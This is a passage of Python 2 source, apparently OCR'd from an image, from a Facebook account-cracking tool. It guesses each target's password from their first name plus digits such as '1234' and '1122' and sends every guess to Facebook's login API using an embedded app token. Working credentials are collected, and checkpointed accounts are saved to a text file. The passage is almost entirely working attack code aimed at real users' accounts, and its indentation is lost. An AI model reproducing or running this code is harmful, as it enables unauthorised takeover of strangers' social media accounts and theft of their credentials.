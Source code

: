 print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5
oks.append(user+pass5)
else:
if 'www.facebook.com' in q["error_msg"]:
print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5
cek = open("out/checkpoint.txt", "a")
cek.write(user+"|"+pass5+"\n")
cek.close()
cekpoint.append(user+pass5)
else:
pass6 = b['first_name'] + '1234'
data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
q = json.load(data)
if 'access_token' in q:
print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6
oks.append(user+pass6)
else:
if 'www.facebook.com' in q["error_msg"]:
print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6
cek = open("out/checkpoint.txt", "a")
cek.write(user+"|"+pass6+"\n")
cek.close()
cekpoint.append(user+pass6)
else:
a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
b = json.loads(a.text)
pass7 = b['first_name'] + '1122'
data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
q = json.load(data)
if 'access_token' in q:
print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7
oks.append(user+pass7)
else:
if 'www.facebook.com' in q["error_msg"]:
print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7
cek = open("out/checkpoint.txt", "a")
cek.write(user+"|"+pass7+"\n")
cek.close()
cekpoint.append(user+pass7)


except:
pass

